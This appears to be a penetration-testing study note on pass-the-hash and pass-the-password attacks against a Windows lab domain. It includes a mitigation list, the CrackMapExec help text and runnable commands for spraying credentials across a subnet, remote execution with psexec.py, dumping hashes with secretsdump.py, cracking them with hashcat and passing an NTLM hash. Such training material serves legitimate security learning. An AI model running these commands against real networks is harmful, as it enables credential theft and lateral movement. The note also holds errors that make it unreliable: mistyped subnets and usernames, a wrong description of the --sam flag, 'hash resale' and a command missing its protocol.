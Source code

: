 ### Overview
A "Pass-the-Hash/Password" (PtH/P) attack is a common technique used by attackers to gain unauthorized access to a system or network using hashed credentials, such as NTLM (NT LAN Manager) hashes, without knowing the actual plaintext password. The attack is possible because Windows systems store password hashes instead of actual passwords in the Local Security Authority (LSA) database.

**V. Imp Note:** You can pass NTLM Hashes But Not NTLMv2 Hashes

#### Features
1. **Credential Harvesting:** The attacker first gains access to a user's hashed credentials, usually by using various techniques like network sniffing, keylogging, or other methods to extract the hash from the compromised system or network.
2. **Hash Extraction:** The attacker obtains the NTLM hash from the compromised system's LSA or other locations where hashes might be stored.
3. **Hash Resale:** Instead of attempting to crack the hash and find the plaintext password, the attacker simply "resales" the obtained hash without needing to know the actual password. The stolen hash can be used directly in authentication protocols to impersonate the user.
4. **Authentication Impersonation:** The attacker uses the stolen hash as a substitute for the actual password when authenticating to other systems on the network. Since Windows systems use NTLM authentication, the stolen hash is accepted as a valid credential, granting the attacker access as the compromised user.
5. **Lateral Movement:** Once the attacker gains access to a system using PtH, they can perform lateral movement within the network, using the same technique to pass the hash from one system to another, escalating privileges and compromising more systems.

#### Mitigation
1. **Strong Credential Storage:** Use strong encryption mechanisms like Kerberos, which avoids storing password hashes and relies on ticket-based authentication.
2. **Pass-the-Ticket (PtT) Mitigation:** Implementing defenses against PtT attacks by regularly refreshing Kerberos tickets and monitoring for suspicious activity.
3. **Multi-Factor Authentication (MFA):** Enforcing MFA adds an extra layer of security and makes it harder for attackers to impersonate users even if they obtain hashed credentials.
4. **Least Privilege:** Limit user privileges to only what is necessary for their role, reducing the potential impact of a compromised account.
5. **Credential Guard:** Windows Credential Guard is a feature that can help protect against PtH attacks by securely isolating credentials.
6. **Monitoring and Logging:** Continuously monitor network activity for unusual patterns and log authentication events to detect potential PtH attacks.
![[Pass the Hash Mitigation.png]]

### Crack Map Exec
CrackMapExec (CME) is a popular open-source post-exploitation and penetration testing tool designed for offensive security assessments. It is written in Python and used for enumeration, exploitation, and lateral movement in Windows networks. CrackMapExec is especially useful for interacting with Windows networks and Active Directory environments.

#### Features
1. **Enumeration:** CME can be used to perform various enumeration tasks on target systems, including listing shares, users, groups, sessions, open ports, and more.
2. **Exploitation:** It supports various exploitation modules, allowing users to perform attacks like pass-the-hash, pass-the-ticket, and Kerberoasting.
3. **Lateral Movement:** CME enables lateral movement across Windows networks by leveraging stolen credentials to authenticate to other systems and execute commands.
4. **Interactive Shell:** The tool provides an interactive shell for executing commands on compromised hosts.
5. **Powershell Command Execution:** It supports executing PowerShell commands remotely on target systems.
6. **Brute-Force:** CME can perform password spraying and brute-force attacks to gain unauthorized access.
7. **Kerberos Ticket Handling:** It can handle Kerberos tickets, including exporting and importing tickets.
8. **Session Management:** CME manages and maintains sessions, which are essential for post-exploitation tasks.

#### Help Page
```bash

options:
  -h, --help            show this help message and exit
  -t THREADS            set how many concurrent threads to use (default: 100)
  --timeout TIMEOUT     max timeout in seconds of each thread (default: None)
  --jitter INTERVAL     sets a random delay between each connection (default: None)
  --darrell             give Darrell a hand
  --verbose             enable verbose output

protocols:
  available protocols

  {winrm,ssh,mssql,rdp,smb,ldap,ftp}
    winrm               own stuff using WINRM
    ssh                 own stuff using SSH
    mssql               own stuff using MSSQL
    rdp                 own stuff using RDP
    smb                 own stuff using SMB
    ldap                own stuff using LDAP
    ftp                 own stuff using FTP
```

### Exploitation
##### Passing the Password
```bash
$ crackmapexec smb 192.168.57.0//24

$ crackmapexec smb 192.168.57.0//24 -u fcastle -d Marvel.local -p Password1

$ crackmapexec smb 192.168.57.0//24 -u fcastle -d Marvel.local -p Password1 --sam

$ psexec.py marvel/fcatle:Password1@192.168.57.142
```
**Explanation:**
1. `$ crackmapexec smb 192.168.57.0//24 -u fcastle -d Marvel.local -p Password1`
	- This command is using CrackMapExec (CME) to interact with SMB services (Windows file sharing) on a range of IP addresses within the subnet 192.168.57.0/24.
	- `-u fcastle` specifies the username "fcastle" to authenticate with on target systems.
	- `-d Marvel.local` specifies the Active Directory domain "Marvel.local" to authenticate within the Windows network.
	- `-p Password1` provides the plaintext password "Password1" to use for authentication.
	- The purpose of this command is to attempt to authenticate to the SMB services on all IP addresses in the given subnet using the provided username and password. If successful, it could potentially allow access to shared resources and lateral movement within the network.
2. `$ crackmapexec smb 192.168.57.0//24 -u fcastle -d Marvel.local -p Password1 --sam`
	- This command is similar to the previous one but includes the `--sam` flag.
	- The `--sam` flag instructs CrackMapExec to use the Security Account Manager (SAM) database for authentication instead of the default LSASS (Local Security Authority Subsystem Service) database.
	- The SAM database stores local user account credentials on a Windows system. Using this option may allow CME to authenticate with local user credentials on target systems.
3. `$ psexec.py marvel/fcatle:Password1@192.168.57.142`
	- This command uses the psexec.py script, which is part of the Impacket library, to execute commands remotely on a target system with IP address 192.168.57.142.
	- `marvel/fcastle` represents the domain and username to authenticate with on the target system.
	- `Password1` is the plaintext password associated with the provided username.
	- The purpose of this command is to execute commands on the target system using the credentials provided. psexec.py is a powerful tool for remote command execution on Windows systems and is commonly used for lateral movement in post-exploitation scenarios.

##### Dump The Hashes
```bash
$ secretsdump.py marvel/fcatle:Password1@192.168.57.142
```
![[Dumping Hashes Using SecretsDump.png]]

##### Cracking the Hashes
```bash
$ hashcat -m 1000 hashes.txt rockyou.txt
```
![[Cracking the Hashes Using Hashcat.png]]

##### Passing The Hash
```bash
$ crackmapexec 102.168.57.0/24 -u "Frank Castle" -H <Hash> --local-auth
```
![[Passing the Hash.png]]
**V. Imp Note:** You can pass NTLM Hashes But Not NTLMv2 Hashes